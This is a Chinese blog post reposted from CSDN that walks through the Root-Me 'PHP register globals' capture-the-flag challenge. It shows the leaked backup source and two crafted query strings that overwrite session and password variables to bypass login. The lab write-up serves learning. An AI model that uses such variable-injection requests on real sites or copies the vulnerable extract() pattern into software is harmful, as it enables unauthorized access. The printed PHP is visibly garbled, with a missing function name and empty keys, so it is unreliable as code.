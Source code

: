 <!--yml
category: 未分类
date: 2022-04-26 14:49:08
-->

# CTF-rootme 题解之PHP register globals_weixin_30881367的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30881367/article/details/99600339](https://blog.csdn.net/weixin_30881367/article/details/99600339)

LINK:[https://www.root-me.org/en/Challenges/Web-Server/PHP-register-globals](https://www.root-me.org/en/Challenges/Web-Server/PHP-register-globals)

　　  [http://challenge01.root-me.org/web-serveur/ch17](http://challenge01.root-me.org/web-serveur/ch17)

Rererrence:[http://php.net/manual/zh/security.globals.php](http://php.net/manual/zh/security.globals.php)

从 <acronym title="PHP: Hypertext Preprocessor">PHP</acronym> [» 4.2.0](http://www.php.net/releases/4_2_0.php) 版开始配置文件中 <acronym title="PHP: Hypertext Preprocessor">PHP</acronym> 指令 [register_globals](http://php.net/manual/zh/ini.core.php#ini.register-globals) 的默认值从 on 改为 off 了,当 register_globals 打开以后，各种变量都被注入代码，例如来自 <acronym title="Hyper Text Markup Language">HTML</acronym> 表单的请求变量。再加上 <acronym title="PHP: Hypertext Preprocessor">PHP</acronym> 在使用变量之前是无需进行初始化的,也可能会从其它途径进来，比如说通过 <acronym title="Uniform Resource Locator">URL</acronym> 的 GET。

#### Statement

It seems that the developper often leaves backup files around...

根据本题提示，存在备份文件的可能，尝试访问http://challenge01.root-me.org/web-serveur/ch17/index.php.bak这个文件，提示可以下载，下载之后打开得到文件内容如下：

其中判断登录是否成功的语句为

```
if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && ) ){ $aff=display("well done, you can validate with the password : $hidden_password");
```

```
其中一个条件是：如果用户输入的password等于hidden_password这个变量，就会提示密码可以通过验证。
另外一个条件是：$**_SESSION["logged"]==1**可以通过验证,即_****SESSION[logged]=1

访问网址：http://challenge01.root-me.org/web-serveur/ch17/index.php?_SESSION[logged]=1
******第二种方法：http://******challenge01.root-me.org/web-serveur/ch17/?password=1&hidden_password=1，直接在同一页面访问************http://******challenge01.root-me.org/web-serveur/ch17同样可以得到flag。********** 
```

```
<?php function ($password, $hidden_password){ $res=0; if (isset($password) && $password!=""){ if ( $password == $hidden_password ){ $res=1;
        }
    } $_SESSION["logged"]=$res; return $res;
} function display($res){ $aff= ' <html>
      <head>
      </head>
      <body>
        <h1>Authentication v 0.05</h1>
        <form action="" method="POST">
          Password&nbsp;<br/>
          <input type="password" name="password" /><br/><br/>
          <br/><br/>
          <input type="submit" value="connect" /><br/><br/>
        </form>
        <h3>'.htmlentities($res).'</h3>
      </body>
      </html>'; return $aff;
} session_start(); if ( ! isset($_SESSION["logged"]) ) $_SESSION["logged"]=0; $aff=""; include("config.inc.php"); if (isset($_POST["password"])) $password = $_POST[""]; if (!ini_get('')) { $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET); if (isset($_SESSION)) { array_unshift($superglobals, $_SESSION);
    } foreach ($superglobals as $superglobal) { extract($superglobal, 0 );
    }
} if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){ $aff=display("well done, you can validate with the password : $hidden_password");
} else { $aff=display("try again");
} echo $aff; ?>
```